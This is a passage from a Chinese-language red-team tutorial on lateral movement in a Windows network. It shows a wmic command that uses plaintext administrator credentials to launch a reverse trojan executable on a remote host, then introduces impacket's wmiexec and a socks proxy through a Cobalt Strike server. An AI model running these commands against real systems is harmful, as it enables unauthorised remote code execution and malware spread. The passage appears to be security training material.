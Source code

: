 #### 2.1.2.3. 执行木马

到这里我们就可以执行文件了，这里也上线了，不过要注意这个是反向木马，如果是正向的是一样的操作。

```
wmic /node:192.168.20.30 /user:administrator /password:admin@123 process call create "c:/3333.exe"
```

![image-20230628210634213](assets/mNSwHVOtdLDe13v.png)

## 2.2. wmiexec-impacket套件操作演示

这里我们前期的受控主机上线就不演示了，直接演示横向移动吧，这里需要使用到套件，这里我们使用py版本，exe文件太大了，而且存在被杀的风险，同时为了，保证安全，我们不将文件上传，直接开启socks代理，本地运行。

[impacket](https://github.com/fortra/impacket)

### 2.2.1. 设置socks代理

这里使用工具进行设置socks代理，应该不用说了吧，之前写文章都很详细，后续将一些不必要的内容，或者很简单内容都去除，直接上效果，或者一些必要的操作。

#### 2.2.1.1. 设置代理服务器

注意这里的代理要设置你的CS服务器的代理，至于端口怎么获取，自己想！
